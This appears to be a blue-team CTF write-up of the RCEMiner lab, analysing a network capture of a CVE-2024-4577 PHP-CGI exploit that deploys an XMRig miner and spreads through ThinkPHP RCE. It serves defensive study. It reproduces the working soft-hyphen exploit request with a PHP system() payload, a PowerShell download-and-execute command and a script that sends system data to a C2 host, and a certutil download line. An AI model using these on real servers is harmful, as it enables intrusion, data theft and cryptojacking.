

# RCEMiner Lab


# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/rceminer/](https://cyberdefenders.org/blueteam-ctf-challenges/rceminer/)

Suggested tools: Wireshark, Brim

Tactics: Execution, Discovery, Lateral Movement, Command and Control, Impact

# Scenario

Over the past 24 hours, the IT department has noticed a drastic increase in CPU and memory usage on several publicly accessible servers. Initial assessments indicate that the spike may be linked to unauthorized crypto-mining activities. Your team has been provided with a network capture (PCAP) file from the affected servers for analysis.

Analyze the provided PCAP file using the network analysis tools available to you. Your goal is to identify how the attacker gained access and what actions they took on the compromised server.

VM provided for forensic work runs Linux.

```bash
Linux ip-172-31-27-251 6.8.0-1013-aws #14-Ubuntu SMP Thu Jul 25 21:19:24 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

# Questions

**Q1**- To identify the entry point of the attack and prevent similar breaches in the future, it’s crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?

Answer: CVE-2024-4577

Reason: CVE-2024-4577 is a PHP-CGI (Common Gateway Interface) argument injection vulnerability affecting PHP on Windows systems. The attacker exploited Windows' Best-Fit character mapping, which silently converts the soft hyphen (`%AD`, `U+00AD`) to a regular hyphen (`-`) during character encoding processing. This behavior bypassed the guard introduced by the 2012 fix for CVE-2012-1823, which blocked literal hyphens in query string parameters. By encoding `-d` as `%ADd`, the attacker injected PHP-CGI arguments via the query string, enabling `allow_url_include` and setting `auto_prepend_file=php://input`, causing PHP to execute the POST body as arbitrary PHP code (T1059.004 - Command and Scripting Interpreter: Unix Shell / server-side script execution).

The target host `36.96.48.3` received a crafted request where the query string carried two injected directives: `allow_url_include=1` permits PHP to include files from remote URLs or input streams, and `auto_prepend_file=php://input` instructs the PHP runtime to prepend and execute whatever content arrives in the POST body before any normal script logic runs. Together, these directives turn the POST body into an unauthenticated remote code execution (RCE) channel. This maps to T1190 - Exploit Public-Facing Application.

The Best-Fit encoding bypass is the core evasion primitive here. PHP-CGI on Windows passes query string tokens directly to the CGI argument parser, and the Windows codepage conversion layer silently normalizes `%AD` to `-` before PHP processes it. No sanitization or Web Application Firewall (WAF) rule looking for literal hyphens would catch the encoded form, making this a character-set-level bypass rather than a payload obfuscation technique.

```bash
POST /index.php?%ADd+allow_url_include%3D1+-d+auto_prepend_file%3Dphp://input HTTP/1.1
Host: 36.96.48.3
```

## Windows Best Fit Character Encoding

Windows Best-Fit character encoding is a Windows-specific behavior where the National Language Support (NLS) subsystem silently maps Unicode characters to visually or semantically similar ASCII equivalents when converting between codepages. The soft hyphen (`U+00AD`, encoded as `%AD` in a URL) has no direct representation in codepages like CP1252, so Windows maps it to a regular hyphen (`-`). This conversion happens transparently at the operating system level, before the receiving application processes the input.

In the context of CVE-2024-4577, PHP-CGI on Windows passes query string content through the Windows character encoding layer before argument parsing. The 2012 patch for CVE-2012-1823 added a guard blocking bare hyphens in query strings to prevent direct PHP-CGI argument injection, but that guard operated on the already-decoded string. By substituting `%AD` for the leading hyphen in `-d`, the attacker delivered a value that bypassed the guard in its encoded form, then became a valid hyphen after Best-Fit conversion resolved it, restoring the `-d` directive that PHP-CGI would recognize and process.

Forensically, this pattern is significant because it leaves an asymmetric artifact trail. Web server access logs record the raw request URI, preserving `%ADd` in the query string, while PHP-CGI processes the converted form. A detection rule looking for literal `-d` in query strings would miss it entirely. The same Best-Fit surface exists for other ASCII control characters and punctuation that have Unicode lookalikes, making this a reusable bypass class rather than a one-off trick. Analysts hunting for this pattern should normalize percent-encoded query strings and apply Unicode NFKC normalization before signature matching, since NFKC collapses compatibility equivalents including soft hyphens to their canonical forms.

**Q2**- A specific Unicode character is used in the exploit to manipulate how the server interprets command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?

Answer: `0xAD`

Reason: `U+00AD` is a Unicode control character, specifically a non-printable code point that carries formatting intent rather than a visible glyph. Control characters do not render as symbols; they instruct systems how to handle surrounding text. The soft hyphen signals a legal line-break opportunity in typesetting contexts, making it invisible in virtually all renderers and indistinguishable from whitespace to a human reviewer inspecting a request.

Windows Best-Fit character mapping treats `U+00AD` as equivalent to the regular hyphen (`U+002D`) when converting between code pages. This is expected behavior by design: the NLS subsystem resolves characters that have no direct code page representation to their closest semantic equivalent. PHP-CGI on Windows inherits this conversion because the query string passes through the Windows encoding layer before argument parsing occurs.

The CVE-2012-1823 guard blocked literal hyphens in query string parameters to prevent CLI argument injection into the PHP-CGI process. That check operated on the raw, pre-conversion input. Because `%AD` decodes to `U+00AD` rather than `U+002D`, the guard saw no hyphen and passed the value through. Windows then resolved the soft hyphen to a regular hyphen during code page conversion, and PHP-CGI received a fully valid `-d` directive.

The conversion chain is straightforward:

```
Encoded in request:    %AD        (soft hyphen, U+00AD)
After Windows mapping: -          (regular hyphen, U+002D)
PHP-CGI interprets:    -d allow_url_include=1 -d auto_prepend_file=php://input
```

The forensic implication is that the raw log entry and the runtime-interpreted value differ at the character level. Detection logic operating on raw URI strings will not match signatures written against literal `-d`, and the injected argument is invisible to any analyst visually inspecting the request without hex decoding. Normalization using Unicode NFKC before signature evaluation collapses `U+00AD` to `U+002D`, closing that gap.

**Q3**- The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker’s script?

Answer: Intel(R) Core(TM) i7-6700HQ

Reason: Frame 216 marks the successful exploitation of CVE-2024-4577. The attacker delivered a PHP one-liner via the POST body, leveraging `system()` to invoke PowerShell with execution policy bypass. The command staged a secondary script by fetching `1.ps1` from the C2 at `1.80.23.4:8000` into `C:\Windows\Temp\`, then immediately executed it in the same chained call — no persistence mechanism required for this stage.

The staged script was base64-encoded to evade content inspection. Post-decode, it performed WMI-based host reconnaissance, collecting CPU, RAM, and disk metrics and writing output to `C:\Windows\Temp\1.txt`. The data was exfiltrated via HTTP POST back to the C2, visible in the packet stream following frame 232. The C2 was running a Werkzeug/Python HTTP listener — a common attacker-side choice for lightweight staging servers — which returned a `413 Request Entity Too Large` error, indicating the exfiltrated payload exceeded the listener's configured body limit. Both `1.ps1` and `1.txt` were self-deleted post-execution, leaving no staged artifacts on disk.

The WMI recon result identified the target as an **Intel Core i7-6700HQ @ 2.60GHz**, a Skylake-H mobile processor (2015), consistent with a laptop or portable workstation. This is likely a sandboxed analysis environment or an aging endpoint rather than a production server, which may inform the attacker's subsequent targeting decisions.

```php
POST /index.php/index.php?%ADd+allow_url_include%3D1+-d+auto_prepend_file%3Dphp://input HTTP/1.1
Host: 36.96.48.3
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 231

<?php system('powershell -ExecutionPolicy Bypass -Command "& {Invoke-WebRequest -Uri http://1.80.23.4:8000/1.ps1 -OutFile C:\Windows\Temp\1.ps1; powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\1.ps1}"'); ?>;echo 1337; die;
```

```powershell
$e = "JG91dHB1dEZpbGUgPSAiQzpcV2luZG93c1xUZW1wXDEudHh0Ig0KJGNwdUluZm8gPSBHZXQtV21pT2JqZWN0IFdpbjMyX1Byb2Nlc3NvciB8IFNlbGVjdC1PYmplY3QgTmFtZSwgTnVtYmVyT2ZDb3JlcywgTWF4Q2xvY2tTcGVlZA0KJHJhbUluZm8gPSBHZXQtV21pT2JqZWN0IFdpbjMyX1BoeXNpY2FsTWVtb3J5IHwgU2VsZWN0LU9iamVjdCBDYXBhY2l0eQ0KJGRpc2tJbmZvID0gR2V0LVdtaU9iamVjdCBXaW4zMl9Mb2dpY2FsRGlzayB8IFNlbGVjdC1PYmplY3QgRGV2aWNlSUQsIFNpemUsIEZyZWVTcGFjZQ0KJGNwdUluZm8gfCBPdXQtRmlsZSAtRmlsZVBhdGggJG91dHB1dEZpbGUgLUFwcGVuZA0KJHJhbUluZm8gfCBPdXQtRmlsZSAtRmlsZVBhdGggJG91dHB1dEZpbGUgLUFwcGVuZA0KJGRpc2tJbmZvIHwgT3V0LUZpbGUgLUZpbGVQYXRoICRvdXRwdXRGaWxlIC1BcHBlbmQNCkludm9rZS1XZWJSZXF1ZXN0IC1VcmkgaHR0cDovLzEuODAuMjMuNDo4MDAwIC1NZXRob2QgUE9TVCAtSW5GaWxlICRvdXRwdXRGaWxlDQpSZW1vdmUtSXRlbSAtUGF0aCBDOlxXaW5kb3dzXFRlbXBcMS50eHQgLUZvcmNlDQpSZW1vdmUtSXRlbSAtUGF0aCBDOlxXaW5kb3dzXFRlbXBcMS5wczEgLUZvcmNl"
$z = [System.Convert]::FromBase64String($e)
$x = [System.Text.Encoding]::UTF8.GetString($z)

# Decoded
$outputFile = "C:\Windows\Temp\1.txt"
$cpuInfo = Get-WmiObject Win32_Processor | Select-Object Name, NumberOfCores, MaxClockSpeed
$ramInfo = Get-WmiObject Win32_PhysicalMemory | Select-Object Capacity
$diskInfo = Get-WmiObject Win32_LogicalDisk | Select-Object DeviceID, Size, FreeSpace
$cpuInfo | Out-File -FilePath $outputFile -Append
$ramInfo | Out-File -FilePath $outputFile -Append
$diskInfo | Out-File -FilePath $outputFile -Append
Invoke-WebRequest -Uri http://1.80.23.4:8000 -Method POST -InFile $outputFile
Remove-Item -Path C:\Windows\Temp\1.txt -Force
Remove-Item -Path C:\Windows\Temp\1.ps1 -Force
```

```powershell
# Wireshark frame 232
HTTP/1.1 100 Continue

POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.134
Content-Type: application/x-www-form-urlencoded
Host: 1.80.23.4:8000
Content-Length: 950
Expect: 100-continue
Connection: Keep-Alive

Name                                      NumberOfCores MaxClockSpeed
----                                      ------------- -------------

Intel(R) Core(TM) i7-6700HQ CPU @ 2.60GHz             1          2592
Intel(R) Core(TM) i7-6700HQ CPU @ 2.60GHz             1          2592
...
```

| Indicator | Type | Context |
| --- | --- | --- |
| 1.80.23.4 | IP | C2 / staging server |
| 1.80.23.4:8000 | IP:Port | Werkzeug listener |
| `C:\Windows\Temp\1.ps1` | File path | Staged payload |
| `C:\Windows\Temp\1.txt` | File path | Recon output, self-deleted |
| `CVE-2024-4577` | Vulnerability | Initial access vector |

**Q4**- Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?

Answer: `Start-Process C:\Windows\Temp\2.exe -Verb RunAs`

Reason: Frame 255 represents a pivot from reconnaissance to payload deployment. The attacker reused the same CVE-2024-4577 injection chain but with a materially different objective: delivering a binary rather than a script. The payload was hosted as `2.txt` on the C2 at `1.80.23.4:8000` — a deliberate extension mismatch to defeat file transfer filters that block `.exe` downloads — and written to `C:\Windows\Temp\2.exe` on the victim at 36.96.48.3.

Execution used `Start-Process` with `-Verb RunAs`, which triggers a UAC elevation prompt and launches the process with administrator privileges. This is a prerequisite for the next stage: installing a cryptominer as a persistent Windows service requires SYSTEM or administrator-level access to interact with the Service Control Manager. The use of `-Verb RunAs` is notable because it implies either UAC was disabled on the target, auto-elevation was configured, or the session context already had sufficient privileges for the prompt to resolve silently — an interactive UAC dialog in a non-attended session would stall execution.

The `.txt`-to-`.exe` rename is a low-sophistication but effective evasion primitive. It bypasses extension-based egress filtering on the C2 side and any content inspection that relies on file extension rather than magic bytes. Combined with the base64-encoded delivery in the previous stage, the attacker is applying layered filter evasion across both the exploitation and staging phases.

**Q5**- After compromising the server, the malware used it to launch a massive number of HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?

Answer: ThinkPHP

Reason: Frame 10151 marks the transition from targeted exploitation to automated worm behavior. The compromised host at `36.96.48.3` began mass scanning external targets, opening each connection with a bare `GET /` to fingerprint active web servers before committing to the exploit sequence — a lightweight liveness check that minimizes noise against non-responsive hosts.

Against confirmed targets, the attacker fired multiple ThinkPHP RCE variants per host, cycling between two route patterns — `\think\app/invokefunction` and `\think\Container/invokeFunction` — paired with `call_user_func_array` and both `shell_exec` and `system` as the execution sink. Spraying variants rather than committing to a single payload increases hit probability across ThinkPHP 5.x minor versions where the exploitable code path differs. The delivery chain is identical to frame 10375: `certutil -urlcache -split -f` fetches `spread.txt` from `36.96.48.3:19490`, writes it as `C:\ProgramData\spread.exe`, and executes inline.

The self-referential staging architecture is operationally significant. `36.96.48.3` is simultaneously victim, C2, and spreader — hosting the payload it distributes to newly compromised nodes. If those nodes replicate the same behavior, the campaign scales without the original C2 at `1.80.23.4` ever appearing in downstream traffic, making attribution and takedown substantially harder.

**Q6**- The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?

Answer: T1071.004

Reason: DNS was being used as an active communication channel rather than incidental hostname resolution. Normal resolution activity for a single host produces a bounded, sporadic DNS footprint tied to new connection attempts; a sustained or periodic DNS pattern decoupled from corresponding HTTP/TCP session initiations is the primary behavioral indicator that the protocol is being abused for C2.

DNS is an effective covert channel for several structural reasons. It is permitted outbound at virtually every network boundary, rarely subject to deep packet inspection, and generates no immediate suspicion when queried repeatedly. Encoding C2 instructions or beaconing data within query subdomains or TXT/NULL record responses allows bidirectional communication that traverses firewalls and proxies transparently. The malware's use of this channel alongside its HTTP-based spreading activity (port 19490) suggests deliberate protocol layering — HTTP for bulk payload delivery where speed matters, DNS for low-and-slow C2 signaling where stealth matters.

**Q7**- Identifying where the malware could be stored on a compromised system is crucial for ensuring the complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?

Answer: `C:\ProgramData\spread.exe`

Reason: `C:\ProgramData` is a deliberate staging choice. Unlike `C:\Windows\Temp\` used in the earlier stages, `ProgramData` is world-writable by default — any process regardless of privilege level can write there without triggering a UAC prompt or requiring administrator context. This makes it reliable for staging before elevation is obtained, and it carries less scrutiny than Temp in some EDR rulesets due to its association with legitimate application data.

The certutil command writes `spread.txt` directly to disk as `spread.exe`, combining download, rename, and drop in a single LOLBin invocation. The `.txt`-to-`.exe` rename is consistent across all three payload deliveries in this campaign (`2.txt` → `2.exe`, `spread.txt` → `spread.exe`), confirming it as a deliberate tradecraft pattern rather than incidental naming.

**Q8**- Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?

Answer: `218.244.58.70:9011`

Reason: Frame `10040` reveals the miner's C2 resolution: `nishabii[.]xyz` queried via Google's public DNS at `8.8.8.8`, resolving to `218.244.58.70` in frame 10041. Using `8.8.8.8` rather than the host's configured resolver is a common evasion technique — it bypasses internal DNS monitoring and RPZ-based sinkholes that would block known malicious domains at the resolver level.

The miner established a persistent TCP connection to `218.244.58.70:9011` and began transmitting pipe-delimited heartbeat payloads at a strict 10-second interval:

```
CPU(Stop)|0.02|6%|0.00|auto.c3pool.org:19999
```

The beacon reports CPU status, utilization percentage, and the active mining pool at `auto.c3pool.org:19999`. The regularity of the interval is consistent with a scheduled task or timer loop rather than event-driven communication, and the inclusion of pool connection state suggests the C2 operator is monitoring miner health across multiple compromised nodes. C3Pool is a Monero mining pool, confirming `2.exe` as an XMR cryptominer.

**MITRE ATT&CK:** T1071.004 (DNS — external resolver abuse), T1071.001 (C2 over HTTP-like TCP), T1496 (Resource Hijacking — cryptomining).

```powershell
# DNS frames
No.	Time	Source	Destination	Protocol	Length	Info
10040	692.560418	36.96.48.3	8.8.8.8	DNS	72	Standard query 0xdbfa A nishabii.xyz
10041	692.641236	8.8.8.8	36.96.48.3	DNS	88	Standard query response 0xdbfa A nishabii.xyz A 218.244.58.70

Frame 10041: 88 bytes on wire (704 bits), 88 bytes captured (704 bits)
Ethernet II, Src: ca:01:18:88:00:00 (ca:01:18:88:00:00), Dst: VMware_5e:dd:e1 (00:0c:29:5e:dd:e1)
Internet Protocol Version 4, Src: 8.8.8.8, Dst: 36.96.48.3
User Datagram Protocol, Src Port: 53, Dst Port: 53973
Domain Name System (response)
    Transaction ID: 0xdbfa
    Flags: 0x8180 Standard query response, No error
    Questions: 1
    Answer RRs: 1
    Authority RRs: 0
    Additional RRs: 0
    Queries
        nishabii.xyz: type A, class IN
            Name: nishabii.xyz
            [Name Length: 12]
            [Label Count: 2]
            Type: A (1) (Host Address)
            Class: IN (0x0001)
    Answers
        nishabii.xyz: type A, class IN, addr 218.244.58.70
            Name: nishabii.xyz
            Type: A (1) (Host Address)
            Class: IN (0x0001)
            Time to live: 6292 (1 hour, 44 minutes, 52 seconds)
            Data length: 4
            Address: 218.244.58.70
```

```powershell
# PSH+ACK TCP traffic
No.	Time	Source	Destination	Protocol	Length	Info
67620	851.792973	36.96.48.3	218.244.58.70	TCP	102	49965 → 9011 [PSH, ACK] Seq=1750 Ack=1 Win=64240 Len=48
67628	851.818081	218.244.58.70	36.96.48.3	TCP	60	9011 → 49965 [ACK] Seq=1 Ack=1798 Win=64240 Len=0
...CPU(Stop)|0.02|6%|0.00|auto.c3pool.org:19999...
```

## TCP Application Data Frames

`PSH+ACK` is the TCP flag combination that indicates the sender is pushing data to the application layer immediately rather than buffering it. The `PSH` flag instructs the receiving TCP stack to deliver the payload to the application without waiting for the buffer to fill, making `PSH+ACK` the flag combination that carries actual application-layer content — HTTP requests, shell commands, miner beacons — as opposed to `SYN/ACK` handshake frames or bare ACKs acknowledging receipt. When carving payloads from a capture, filtering to `PSH+ACK` frames isolates the frames worth decoding and skips the TCP overhead.

UTF-8 is the most reliable decoding choice for modern web traffic. It is the default encoding for HTTP/1.1 and HTTP/2, JSON, and most application protocols encountered in web exploitation scenarios. It is a superset of ASCII, so plain-text payloads decode cleanly, and it handles the full Unicode range including the control characters relevant to this campaign — including `U+00AD`. When a payload doesn't render cleanly in UTF-8, Latin-1 (ISO-8859-1) is the next fallback for legacy Windows applications, but UTF-8 should be the first pass on any unknown stream.

**Q9**- Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?

Answer: `XMRig/5.5.0`

Reason: Frame `91054` captures the Stratum login handshake between the compromised host and `43.129.150.214:19999`, exposing the miner identity in the `agent` field: **`XMRig/5.5.0`** on Windows 10 x64, built against `libuv/1.31.0` and MSVC 2015. XMRig is open-source and widely abused in cryptojacking campaigns precisely because it requires no modification — drop, configure, execute.

The wallet field contained `SN`, a placeholder value the pool rejected immediately with an invalid address error before terminating the connection with `FIN`. Despite executing a multi-stage attack chain — CVE-2024-4577 exploitation, reconnaissance, binary staging, UAC elevation, and worm-based spreading — the attacker collected zero mining rewards due to a misconfigured wallet. The infrastructure was fully operational; the operator error was in the payload configuration.

This is forensically useful: the campaign can be attributed to an operator running unconfigured or test tooling, suggesting either a development/staging run, a repurposed third-party payload the attacker didn't fully customize, or a rushed deployment. The spreading activity to external targets still succeeded regardless, meaning other compromised nodes may be running correctly configured miners not visible in this capture.

```powershell
# Full crypto pool traffic
No.	Time	Source	Destination	Protocol	Length	Info
90955	909.328254	36.96.48.3	43.129.150.214	TCP	66	64151 → 19999 [SYN, ECE, CWR] Seq=0 Win=64240 Len=0 MSS=1460 WS=256 SACK_PERM
91049	909.635492	43.129.150.214	36.96.48.3	TCP	60	19999 → 64151 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460
91050	909.635549	36.96.48.3	43.129.150.214	TCP	54	64151 → 19999 [ACK] Seq=1 Ack=1 Win=64240 Len=0
91054	909.640240	36.96.48.3	43.129.150.214	TCP	437	64151 → 19999 [PSH, ACK] Seq=1 Ack=1 Win=64240 Len=383
91063	909.666366	43.129.150.214	36.96.48.3	TCP	60	19999 → 64151 [ACK] Seq=1 Ack=384 Win=64240 Len=0
94826	918.983064	43.129.150.214	36.96.48.3	TCP	216	19999 → 64151 [FIN, PSH, ACK] Seq=1 Ack=384 Win=64240 Len=162
94829	918.983178	36.96.48.3	43.129.150.214	TCP	54	64151 → 19999 [ACK] Seq=384 Ack=164 Win=64078 Len=0
94830	918.983480	36.96.48.3	43.129.150.214	TCP	54	64151 → 19999 [FIN, ACK] Seq=384 Ack=164 Win=64078 Len=0
94844	919.013402	43.129.150.214	36.96.48.3	TCP	60	19999 → 64151 [ACK] Seq=164 Ack=385 Win=64239 Len=0

# Stream 26608 decoded as UTF-8
{"id":1,"jsonrpc":"2.0","method":"login","params":{"login":"SN","pass":"1","agent":"XMRig/5.5.0 (Windows NT 10.0; Win64; x64) libuv/1.31.0 msvc/2015","algo":["cn/1","cn/2","cn/r","cn/fast","cn/half","cn/xao","cn/rto","cn/rwz","cn/zls","cn/double","cn/gpu","cn-lite/1","cn-heavy/0","cn-heavy/tube","cn-heavy/xhv","cn-pico","cn-pico/tlo","rx/0","rx/wow","rx/loki","rx/arq","rx/sfx"]}}
{"jsonrpc":"2.0","id":1,"error":{"code":-1,"message":"Invalid payment address provided: SN. Please use 95_char_long_monero_wallet_address format"},"result":null}
```

# Artifacts

**IP Addresses**

| IP | Role |
| --- | --- |
| `58.16.30.23` | Attacker origin — sent CVE-2024-4577 exploit POST requests |
| `1.80.23.4` | Attacker C2 — hosted payloads on port 8000, received exfil |
| `36.96.48.3` | Victim (compromised web server) |
| `218.244.58.70` | Attacker C2 — metrics beacon receiver (`nishabii[.]xyz`) port 9011 |
| `43.129.150.214` | Monero mining pool (`auto.c3pool.org`) port 19999 |
| `89.17.51.230` | Lateral movement target |
| `129.227.151.100` | Lateral movement target |
| `23.218.56.160` | Lateral movement target |
| `15.165.61.90` | Lateral movement target |
| `189.206.14.240` | Lateral movement target |

**Domains**

| Domain | Resolved IP | Purpose |
| --- | --- | --- |
| `nishabii[.]xyz` | `218.244.58.70` | Attacker C2 — beacon receiver |
| `auto.c3pool[.]org` | `43.129.150.214` | Monero mining pool (C3Pool) |

**Files and Paths**

| Filename | Path | Purpose |
| --- | --- | --- |
| `1.ps1` | `C:\Windows\Temp\1.ps1` | Base64-encoded recon script (self-deleted) |
| `1.txt` | `C:\Windows\Temp\1.txt` | Recon output — CPU/RAM/disk (self-deleted) |
| `2.txt` / `2.exe` | `C:\Windows\Temp\2.exe` | XMRig cryptominer (disguised as .txt) |
| `spread.txt` / `spread.exe` | `C:\ProgramData\spread.exe` | Lateral movement payload (disguised as .txt) |

**Vulnerabilities**

| CVE | Description |
| --- | --- |
| CVE-2024-4577 | PHP-CGI argument injection via Windows Best-Fit soft hyphen (`%AD`) mapping |
| ThinkPHP RCE | `\think\app/invokefunction` route abuse — used for lateral movement |

**Mining**

| Field | Value |
| --- | --- |
| Software | XMRig 5.5.0 |
| Pool | `auto.c3pool[.]org:19999` |
| Wallet | `SN` (invalid — no rewards collected) |
| Beacon | `218.244.58.70:9011` every 10 seconds |

# Lab Insights

- **Obsolete fixes define the next attack surface.** The 2012 patch for CVE-2012-1823 blocked literal hyphens in PHP-CGI query strings but never modeled Windows' character normalization layer. A single control character with no keyboard representation — `U+00AD` — dissolved a twelve-year-old fix without touching the guarded code path. A closed vulnerability class is only closed against the threat model the patch author imagined.
- **Extension-based controls are theater.** Both `2.exe` and `spread.exe` were delivered as `.txt` files and renamed on the victim in a single PowerShell one-liner. No custom tooling, no privilege required. Any control that trusts file extension over magic bytes or entropy analysis will be bypassed trivially and repeatedly.
- **Operational failures are forensic gifts.** The attacker made two clean errors: the C2's `413 Request Entity Too Large` response meant the full WMI recon output was captured in-stream before consumption, and the placeholder wallet value `SN` caused XMRig to immediately reject at the Stratum handshake — leaving miner identity, pool address, and algorithm list in plaintext in the capture. Sloppiness often produces better evidence than the exploitation itself.
- **A compromised host is immediately an attacker.** Within minutes of `2.exe` executing, `36.96.48.3` was running its own HTTP server on port 19490 and firing ThinkPHP exploits at external targets. The spreading infrastructure lived entirely on the victim. Incident response that treats a compromised host as a passive victim rather than an active threat actor will miss the outbound campaign entirely.
- **C2 channels are layered by function.** The miner reported heartbeat telemetry to `nishabii[.]xyz:9011` on a 10-second interval while Stratum mining work ran through `auto.c3pool.org:19999`. Two channels, two purposes, two separate takedown requirements. Single-destination C2 hunting leaves half the infrastructure intact.

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2024-08-09 00:55:19 | Initial Access | `58.16.30.23` sends first CVE-2024-4577 POST to `36.96.48.3` via %AD soft hyphen PHP-CGI injection | T1190 |
| 2024-08-09 00:55:58 | Execution | PHP `system()` invokes PowerShell to download and execute 1.ps1 from `1.80.23.4:8000` | T1059.001 |
| 2024-08-09 00:55:58 | Defense Evasion | 1.ps1 delivered base64-encoded to evade static detection | T1027 |
| 2024-08-09 00:55:59 | Discovery | 1.ps1 queries WMI for CPU, RAM, and disk specs; writes output to `C:\Windows\Temp\1.txt` | T1082 |
| 2024-08-09 00:55:59 | Exfiltration | 1.txt POST to `1.80.23.4:8000`; server returns 413 but data transmitted | T1041 |
| 2024-08-09 00:55:59 | Defense Evasion | 1.ps1 and 1.txt self-deleted after exfil | T1070.004 |
| 2024-08-09 00:56:27 | Execution | Second CVE-2024-4577 POST downloads 2.txt from `1.80.23.4:8000`, saves as `C:\Windows\Temp\2.exe` | T1105, T1036.008 |
| 2024-08-09 00:56:27 | Privilege Escalation | 2.exe launched via `Start-Process -Verb RunAs` to request UAC elevation | T1548.002 |
| 2024-08-09 00:56:27 | Impact | XMRig/5.5.0 begins Monero mining via `auto.c3pool.org:19999` | T1496 |
| 2024-08-09 01:06:44 | C2 | `nishabii[.]xyz` resolved via Google DNS (`8.8.8.8`) to `218.244.58.70` | T1071.004 |
| 2024-08-09 01:06:51 | Lateral Movement | Compromised host fires ThinkPHP RCE exploits at multiple external targets via HTTP | T1210 |
| 2024-08-09 01:06:51 | Defense Evasion | Spreading payload served as spread.txt, renamed to spread.exe on victim side | T1036.008 |
| 2024-08-09 01:06:51 | Lateral Movement | `certutil -urlcache -split -f` used to download spreading payload from `36.96.48.3:19490` | T1105, T1218 |
| 2024-08-09 01:08:33 | C2 | Compromised host beacons to `218.244.58.70:9011` every 10 seconds with CPU and mining pool metrics | T1071.001 |

## Text Tree

```bash
[CVE-2024-4577 Exploit POST]  ← 58[.]16[.]30[.]23 → 36[.]96[.]48[.]3
      └── PHP-CGI processes %AD soft hyphen → -d argument injection
          └── auto_prepend_file=php://input executes POST body as PHP
              └── system() → powershell.exe -ExecutionPolicy Bypass
                  │
                  ├── [Stage 1 — Recon]
                  │   └── Invoke-WebRequest → hxxp://1[.]80[.]23[.]4:8000/1.ps1
                  │       └── 1.ps1 executes (base64-decoded in memory)
                  │           ├── Get-WmiObject Win32_Processor / PhysicalMemory / LogicalDisk
                  │           ├── Output → C:\Windows\Temp\1.txt
                  │           ├── POST 1.txt → hxxp://1[.]80[.]23[.]4:8000  ← 413 error (data still transmitted)
                  │           └── Remove-Item 1.ps1, 1.txt  ← self-delete
                  │
                  └── [Stage 2 — Miner Deployment]
                      └── Invoke-WebRequest → hxxp://1[.]80[.]23[.]4:8000/2.txt
                          └── Saved as C:\Windows\Temp\2.exe  ← extension masquerading
                              └── Start-Process -Verb RunAs  ← UAC elevation
                                  ├── XMRig/5.5.0 → auto.c3pool[.]org:19999  ← mining (wallet: SN — invalid)
                                  ├── HTTP server on :19490  ← hosts spread.txt for lateral movement
                                  └── Beacon → nishabii[.]xyz (218[.]244[.]58[.]70):9011 every 10s
                                      │
                                      └── [Stage 3 — Lateral Movement]
                                          └── ThinkPHP RCE via \think\app/invokefunction
                                              ├── 89[.]17[.]51[.]230
                                              ├── 129[.]227[.]151[.]100
                                              ├── 23[.]218[.]56[.]160
                                              ├── 15[.]165[.]61[.]90
                                              └── 189[.]206[.]14[.]240
                                                  └── certutil -urlcache -split -f
                                                      └── hxxp://36[.]96[.]48[.]3:19490/spread.txt
                                                          └── Saved as C:\ProgramData\spread.exe → executed
```

# Forensic Timeline

